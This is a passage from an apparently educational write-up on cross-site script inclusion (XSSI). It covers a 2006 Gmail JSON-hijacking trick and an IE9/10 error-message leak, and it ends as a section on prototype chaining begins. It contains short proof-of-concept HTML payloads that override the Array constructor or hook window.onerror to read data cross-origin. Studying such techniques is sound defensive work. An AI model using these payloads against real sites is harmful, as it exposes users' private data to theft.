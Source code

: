 [Jeremiah Grossman wrote about a similar vulnerability in Gmail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html) in 2006 that allowed the extraction of user contacts in JSON. In this case, the data was received from Gmail and parsed by the browser JavaScript engine using an unreferenced Array constructor to leak the data. An attacker could access this Array with the sensitive data by defining and overwriting the internal Array constructor like this:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

### 4. Sensitive Data Leakage via Javascript Runtime Errors

Browsers normally present standardized [JavaScript error messages](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Errors). However, in the case of IE9/10, runtime error messages provided additional details that could be used to leak data. For example, a website `victim.com` serves the following content at the URI `http://victim.com/service/csvendpoint` for authenticated users:

```txt
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

This vulnerability could be exploited with the following:

```html
<!--error handler -->
<script>window.onerror = function(err) {alert(err)}</script>
<!--load target CSV -->
<script src="http://victim.com/service/csvendpoint"></script>
```

When the browser tries to render the CSV content as JavaScript, it fails and leaks the sensitive data:

![JavaScript runtime error message ](images/XSSI1.jpeg)

### 5. Sensitive Data Leakage via Prototype Chaining Using `this`
